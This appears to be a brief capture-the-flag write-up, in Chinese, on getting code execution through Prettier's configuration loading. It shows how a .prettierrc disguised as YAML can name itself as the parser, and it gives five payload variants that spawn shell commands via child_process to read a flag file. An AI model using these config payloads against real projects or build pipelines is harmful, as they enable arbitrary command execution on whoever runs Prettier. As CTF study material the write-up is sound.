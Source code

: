 ## 知识点
prettier配置文件 [https://prettier.io/docs/en/configuration.html](https://prettier.io/docs/en/configuration.html)<br />javascript绕过沙箱方法 [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)
## 思路
Prettier回将配置文件中的parser字段进行require包含<br />我们可以包含配置文件自己来执行js代码，并对代码进行yaml伪装
```yaml
var a=`: #`;module.exports = ()=>{return global.process.mainModule.constructor._load("child_process").execSync("/readflag").toString()};/*
trailingComma: es5
tabWidth: 4
semi: false
singleQuote: true
parser: .prettierrc
# */
```
```yaml
filepath: ".prettierrc"
parser: ".prettierrc"
parse: 
  - eval(module.exports = ()=> global.process.mainModule.constructor._load('child_process').execSync('/readflag').toString());
```
```yaml
/*/../app/.prettierrc
#*/const fs = require('fs'); var a = fs.readFileSync("flag", "utf-8");fs.writeFileSync("./dist/ret.js",a);fs.chmodSync("./dist/ret.js",0o444);process.addListener('uncaughtException', (err) => {console.log("ss",err);process.exit(0);})
```
```php
{
  parser: ".prettierrc",
  /x|x/.__proto__.test=()=>true,
  module.exports=()=>require("child_process").execSync("pwd;cat flag").toString()
}
// Hook RegExp.prototype.test
```
```php
parser: ".prettierrc"
foo: module.exports=_=>module.constructor._load('child_process').execSync('cat ./flag').toString()
```
